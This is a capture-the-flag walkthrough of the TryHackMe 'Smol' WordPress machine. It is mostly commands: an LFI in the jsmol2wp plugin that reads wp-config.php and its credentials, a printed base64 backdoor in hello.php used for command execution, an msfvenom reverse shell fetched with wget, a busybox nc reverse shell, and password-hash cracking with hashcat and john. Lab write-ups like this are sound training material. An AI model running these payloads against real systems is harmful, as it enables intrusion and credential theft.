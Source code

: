 > [!NOTE]
> https://tryhackme.com/room/smol
> At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.


>IP:10.10.142.248

# Recon

```
sudo nmap -Pn -p- 10.10.142.248 -sC -sV --vv -T5 
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503213144.png)


```
echo "10.10.142.248    smol.thm www.smol.thm" >> /etc/hosts 
```


```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -u http://www.smol.thm/FFUZ -ic -c
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503212544.png)

# Creds
```
admin@smol.thm
Jose Mario Llado Marti
by wordpress user
```

```
wpscan --url http://www.smol.thm/ -U admin -P /usr/share/wordlists/rockyou.txt 
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503213831.png)
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503214535.png)

```
https://github.com/sullo/advisory-archives/blob/master/wordpress-jsmol2wp-CVE-2018-20463-CVE-2018-20462.txt
```

# LFI
```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503221606.png)
```
wpuser:kbLSF2Vop#lw3rjDZ629*Z%G
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503221950.png)
```
http://www.smol.thm/wp-admin/post.php?post=58&action=edit
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503225157.png)

```
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503231051.png)
```
function hello_dolly() {
	eval(base64_decode('CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA='));
	
	$chosen = hello_dolly_get_lyric();
	$lang   = '';
	if ( 'en_' !== substr( get_user_locale(), 0, 3 ) ) {
		$lang = ' lang="en"';
	}

	printf(
		'<p id="dolly"><span class="screen-reader-text">%s </span><span dir="ltr"%s>%s</span></p>',
		__( 'Quote from Hello Dolly song, by Jerry Herman:' ),
		$lang,
		$chosen
	);
}
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503231041.png)

# Exploitation

```
http://www.smol.thm/wp-admin/profile.php?cmt=1&cmd=id
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503232009.png)

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250503232447.png)

```
!!!!!!!!!!!!!!!!!!!!!!!!!!!!
which wget
msfvenom -p linux/x64/shell_reverse_tcp RHOST=10.11.134.170 LPORT=1337 -f elf > shell.elf
python3 -m http.server 80 
wget%20http://10.11.134.170:80/shell.elf%20-O%20/tmp/shell.elf
ls -la /tmp/shell.elf
chmod%20%2Bx%20%2Ftmp%2Fshell.elf
!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!
```

```
busybox%20nc%2010.11.134.170%204444%20-e%20bash
```

# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.11.134.170/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504000601.png)

```
!!!!!!!!!!!!!!!
-rw-r--r--  1 root root 291970 Mar 29  2024 wp_backup.sql
wget "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../../../../opt/wp_backup.sql" -O /home/kali/Desktop/wp_backup.sql
!!!!!!!!!!!!!!!!
```

```
mysql -u wpuser -h 127.0.0.1 -p
kbLSF2Vop#lw3rjDZ629*Z%G
```

## mysql
```
show databases;
use wordpress;
USE wordpress;
select * from wp_users;
```

## Users
```
think:x:1000:1000:,,,:/home/think:/bin/bash
xavi:x:1001:1001::/home/xavi:/bin/bash
diego:x:1002:1002::/home/diego:/bin/bash
gege:x:1003:1003::/home/gege:/bin/bash
```
# users and hash
```
admin:$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
think:$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
gege:$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
diego:$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
xavi:$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1 |
```
```
$P$BH.CF15fzRj4li7nR19CHzZhPmhKdX.
$P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/
$P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1
$P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1
$P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1
```
## hashcat
```
hashcat -h | grep "phpass"   
hashcat -m 400 hash /usr/share/wordlists/rockyou.txt
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504011204.png)

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504011855.png)
# FLAG1
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504012052.png)

## SSH key
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504013949.png)

```
chmod 700 key
ssh -i key think@10.10.162.27
```

# User gege
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504015529.png)
```
su gege
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504015713.png)
## ZIP archive
```
python3 -m http.server 4443
```

```
http://10.10.162.27:4443/wordpress.old.zip
```

![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504020200.png)

```
zip2john wordpress.old.zip > zip_hash.txt
john zip_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022100.png)
## wp-config
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022244.png)
## User xavi
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022400.png)
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022510.png)
# Flag2
![Smol](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Smol/screenshots/20250504022614.png)